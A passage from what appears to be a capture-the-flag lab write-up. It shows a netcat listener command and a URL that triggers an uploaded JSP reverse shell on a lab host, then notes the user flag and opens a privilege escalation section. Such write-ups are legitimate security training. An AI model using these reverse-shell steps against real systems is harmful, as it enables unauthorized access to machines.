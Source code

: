 ```text
nc -nlvp 4444
```

Then visit the location of the exploit in the browser to run the shell.jsp file.

```text
http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

We have a shell!

![](../images/max/639/1*yLOirVjgdCbJH-Hkg4kA1A.png)

Grab the user flag.

![](../images/max/514/1*LCJvXZB-NSDjz-g_AxANog.png)

This is a non-privileged shell, so we’ll have to find a way to escalate privileges.

## Privilege Escalation <a id="48ca"></a>

Let’s find out more about the system.
